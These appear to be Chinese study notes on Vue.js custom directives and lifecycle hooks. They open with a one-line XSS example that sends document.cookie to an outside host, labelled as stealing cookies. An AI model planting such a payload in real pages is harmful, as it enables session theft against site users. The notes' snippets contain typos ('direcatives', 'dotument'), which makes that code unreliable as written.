   `<a href=javascript:location.href="http://www.baidu.com?" +dotument.cookie>点击偷走cookie</a> `
  ![alt](./images/13.png)

### 自定义指令

- 定义语法：
  - 局部指令：
  ```js
  new Vue({                               new Vue({
     direcatives:{指令名:配置对象}   或者       direcatives{指令名:回调函数}
   })                                     })
  ```
- 配置对象中常用的 3 个回调:
  - `bind:` 指令与元素成功绑定时调用.
  - `inserted:` 指令所在元素被插入页面时调用.
  - `update:` 指令所在模板结构被重新解析时调用.
- 备注：
  - 指令定义时不加 `v-`，但使用时要加 `v-`;
  - 指令名如果是多个单词，要使用`kebab-case`命名方式，不要用`camelCase`命名。

### Vue 生命周期

- 又名: 生命周期回调函数、生命周期函数、生命周期钩子。
- 是什么: Vue 在关键时刻帮我们调用的一些特殊名称的函数。
- 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
- 生命周期函数中的 this 指向是 vm 或组件实例对象。

- 常用的生命周期钩子:
  - `mounted:`发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】
  - `beforeDestroy:`清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。
- 关于销毁 Vue 实例
  - 销毁后借助 Vue 开发者工具看不到任何信息。
  - 销毁后自定义事件会失效,但原生 DOM 事件依然有效。
  - 一般不会在 `beforeDestroy` 操作数据，因为即便操作数据，也不会再触发更新流程了。
